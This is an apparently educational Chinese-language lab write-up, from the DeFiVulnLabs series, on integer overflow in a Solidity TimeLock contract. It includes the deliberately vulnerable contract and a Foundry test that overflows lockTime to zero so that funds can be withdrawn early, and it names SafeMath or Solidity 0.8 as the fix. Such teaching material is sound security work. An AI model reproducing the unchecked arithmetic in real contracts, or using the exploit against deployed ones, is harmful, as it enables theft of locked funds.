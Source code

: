# 整数溢出
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)  
**名称：** 整数溢出漏洞  
**描述：**  
TimeLock智能合约的代码存在一个漏洞，这个漏洞导致攻击者可以提前从TimeLock合约中提取存入的资金。  
该漏洞是因为increaseLockTime函数产生溢出问题，攻击者可以通过让变量lockTime发生溢出，从而来控制锁仓时间，  
这使攻击者能够在实际的锁仓时间到期之前就提取资金。  


**场景：**     
这个智能合约是为了充当时间保险库。  
用户可以将资金存入合约，但是至少要等1周才能取出。  
用户还可以在这1周锁仓时间的基础上延长锁仓时间。


1. 假设Alice和Bob都有1个以太币 
2. 部署TimeLock合约  
3. Alice和Bob都向TimeLock合约存入1个以太币，他们需要等待1周才能取出存入的以太币  
4. Bob使他的变量lockTime发生溢出，Alice因为时间锁还未到期，所以她不能取出她的存入的这1个以太币。  
5. 因为Bob的变量lockTime发生溢出，使其值变为0了，所以他可以取出他刚刚存入的这1个以太币 

**发生什么了？**  
攻击导致TimeLock.lockTime产生溢出，这使得攻击者能够在1周的锁仓时间之前就取出资金。  
Import: 在版本低于0.8的Solidity中，没有SafeMath库  

**解决方法：**  
为了解决溢出问题，可以使用SafeMath库或者使用版本高于0.8的Solidity  


**TimeLock 合约：**  
```solidity
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // 漏洞
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Overflow.sol -vvvv  
```solidity
// 这个testOverflow 函数, 用于测试溢出漏洞
    function testOverflow() public {
        // 记录Alice的余额
        console.log("Alice balance", alice.balance);
        // 记录Bob的余额
        console.log("Bob balance", bob.balance);

        // 记录“Alice开始存钱"
        console.log("Alice deposit 1 Ether...");
        // 设置Alice为deposit()的调用者
        vm.prank(alice);
        // Alice向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Alice的新余额
        console.log("Alice balance", alice.balance);

        // 记录"Bob开始存钱"
        console.log("Bob deposit 1 Ether...");
        // 设置Bob为msg.sender
        vm.startPrank(bob);
        // Bob向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);

    
        //漏洞：增加锁仓时间，使其变量lockTime溢出并变为0。
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // 记录"Bob将成功取款，因为变量lockTime发生溢出"。
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob取款
        TimeLockContract.withdraw();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);
        // 将msg.sender恢复为合约实际调用者
        vm.stopPrank();

        // 将alice设置为msg.sende
        vm.prank(alice);
        // 记录"Alice将无法取款，因为锁仓尚未到期"。
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        //尝试取款Alice的资金。由于锁仓尚未到期，这应该会导致回滚。
        TimeLockContract.withdraw(); // 预期会回滚
    }
```  
**红色框：** TimeLock.lockTime发生溢出  
**紫色框：** 溢出已修复
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd444eaff-b1ef-4171-8890-76186c4de58a%2FUntitled.png?table=block&id=6ec73bdb-955c-42b4-a7c6-5bce2bf97805&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)